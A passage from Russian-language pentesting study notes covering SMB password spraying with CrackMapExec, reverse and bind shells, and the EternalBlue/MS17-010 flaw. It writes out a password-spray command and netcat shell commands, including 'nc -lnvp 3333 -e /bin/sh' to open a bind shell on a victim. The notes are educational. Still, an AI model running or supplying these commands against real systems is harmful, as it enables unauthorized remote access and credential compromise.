Пример с использованием утилиты CrackMapExec:

`cme smb 192.168.1.101 -u /path/to/users.txt -p Summer2024 --continue-on-success`
____
### Оболочки Shell и полезные нагрузки.
____
#### Reverse shell
Схема, подразумевающая под собой то, что на машине злоумышленника поднимается сервер, на котором открывается порт, а к нему подключается целевое устройство, таким образом, например, можно обойти брандмауэр.
К тому же, злоумышленнику не нужно знать ip-адрес жертвы, так как она сама подключится к его порту.
Если на хосте присутствует уязвимость выполнения произвольного кода **RCE**, то ваш путь - Reverse Shell

Его запуск можно совершить например с помощью Netcat.
Командой `nс -nvlp 443` можно открыть запустить у себя сервер, принимающий TCP-запросы на порт 443

____
#### Bind shell
Bind Shell - схема, в которой целевая машина выступает как сервер, а злоумышленник подключается к ней как клиент к открытому порту

Для запуска Bind Shell должен быть известен IP-адрес жертвы

На машине жертвы запустим команду
``nc -lnvp 3333 -e /bin/sh``

На машине атакующего выполним
``nc -nv <IP-адрес жертвы> 3333``

![[Pasted image 20240819223611.png]]
____
### Эксплуатация уязвимостей
#### EternalBlue
Одной из наиболее распространённых является уязвимость **==EternalBlue==** 

Данная уязвимость совместно с бэкдором DoublePulsar являются базой для таких зловредов как WannaCry и NotPetya (программы вымогатели)
Используя их, злоумышленник может получить права уровня System (самые высокие), что может привести к компрометации всего домена.

Данная уязвимость возникает в ОС Windows Server результате сбоя в обработке SMB (порт 445) запроса. Специально сконструированный SMB-пакет вызывает целочисленное переполнение, что приводит к BufferOverflow и, следовательно, к RCE (совместно с бэкдором DoublePulsar, который собственно и помогает запускать вредоносный код)

Особенность SMB - отсутствие сегментации, что создаёт возможность горизонтального перемещения внутри сети, а соответственно и распространения вредоноса

В 2017 году был выпущен патч с исправлением данной уязвимости MS17-010

Обнаружить и проэксплуатировать данную уязвимость можно при помощи MSF Framework.
